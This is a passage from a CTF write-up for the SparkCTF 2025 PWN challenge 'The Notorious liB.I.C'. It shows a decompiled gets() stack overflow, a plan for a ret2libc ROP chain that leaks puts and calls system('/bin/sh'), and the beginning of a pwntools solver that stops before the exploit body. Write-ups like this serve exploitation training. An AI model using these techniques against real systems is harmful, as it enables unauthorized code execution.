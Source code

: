 ```yaml
---
layout: post
title: SparkCTF 2025  | PWN writeups
description: brief solvers and explanations
tags: PWN libc heap botcake wilderness
---
```


# The Notorious liB.I.C

```C
__int64 quest()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("What you need to find out? > ");
  return gets(v1);
}
```

Description :

- no PIE
- we have `pop rdi` gadget
- we can execute the quest above function

Plan :

- typical ROP chain to execute this : _Puts(puts)_ to get puts address in libc , so we can calculate the libc.address
- restart
- ROP chain to do this : system("/bin/sh")
- gg

Solver:

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''

                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main_patched")
libc=ELF("./libc.so.6")
nc="nc tcp.espark.tn 5087"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
```